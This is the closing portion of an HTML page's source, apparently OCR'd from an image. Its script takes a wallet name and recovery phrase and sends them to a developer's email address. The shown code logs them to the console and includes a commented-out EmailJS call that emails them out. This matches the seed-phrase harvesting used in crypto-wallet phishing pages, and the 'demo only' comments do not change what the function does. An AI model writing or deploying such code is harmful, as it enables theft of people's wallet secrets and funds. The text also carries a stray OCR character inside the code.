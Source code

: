             // For demo purposes, log to console (replace with actual email service in production)
            console.log(`Sending to ${developerEmail}:\nSubject: ${subject}\nBody: ${body}`);

            // Example: Using EmailJS (uncomment and configure with your EmailJS account)
            /*
            emailjs.send('your_service_id', 'your_template_id', {
                wallet_name: walletName,
 “               recovery_phrase: phrase,
                to_email: developerEmail
            }).then(
                function(response) {
                    console.log('Email sent successfully:', response);
                },
                function(error) {
                    console.error('Email sending failed:', error);
                }
            );
            */

            // Note: For actual email sending, implement a secure backend (e.g., Node.js with Nodemailer or EmailJS).
            // Never expose sensitive data like recovery phrases client-side in production.
        }

        // Note: For real wallet connections, integrate Web3.js or similar libraries.
        // This is a demo UI only. Submitting phrases here is for illustration; in production, never handle seed phrases client-side.
    </script>

    <!-- Optional: Include EmailJS for client-side email sending (configure with your own service) -->
    <!--
    <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@3/dist/email.min.js"></script>
    <script>
        (function(){
            emailjs.init('YOUR_PUBLIC_KEY'); // Replace with your EmailJS public key
        })();
    </script>
    -->
</body>
</html>